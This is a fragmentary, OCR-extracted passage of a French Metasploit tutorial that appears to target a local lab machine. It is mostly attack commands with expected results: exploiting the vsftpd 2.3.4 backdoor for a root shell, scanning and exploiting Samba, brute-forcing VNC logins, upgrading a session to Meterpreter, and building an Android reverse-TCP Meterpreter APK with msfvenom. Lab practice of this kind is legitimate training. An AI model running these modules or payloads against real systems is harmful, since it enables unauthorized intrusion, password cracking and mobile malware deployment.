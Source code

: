 download /var/www/tikiwiki-old/license.txt<br>
(Télécharge 23.81 KiB.)
### Accéder à une shell système :
bash<br>
shell<br>
whoami<br>
### Exemples Pratiques Détaillés
## Voici un tableau récapitulatif d’exemples pratiques :
Exemple<br>

Module/Commande<br>

Configuration<br>

Résultat Attendu<br>

Exploiter vsftpd<br>

use exploit/unix/ftp/vsftpd_234_backdoor<br>

set RHOSTS 192.168.74.129, exploit<br>

Shell root, whoami retourne root<br>

Scanner Samba et exploiter<br>

use auxiliary/scanner/smb/smb_version, puis use 1<br>

set RHOSTS 192.168.74.129, exploit<br>

### Détecte Samba 3.0.20, accès root<br>

Brute force VNC<br>

use auxiliary/scanner/vnc/vnc_login<br>

set RHOSTS 192.168.74.129, run<br>


### Trouve mot de passe ("password"), accès GUI<br>
Upgrader à Meterpreter<br>

use post/multi/manage/shell_to_meterpreter<br>

set SESSION 4, exploit<br>

### Session Meterpreter, accès avancé
Créer payload Android<br>

msfvenom -p android/meterpreter/reverse_tcp ...<br>

LHOST=192.168.74.128, LPORT=8080, -o payload.apk<br>

Fichier APK généré, 13625 bytes<br>

Création de Payloads Personnalisés<br>
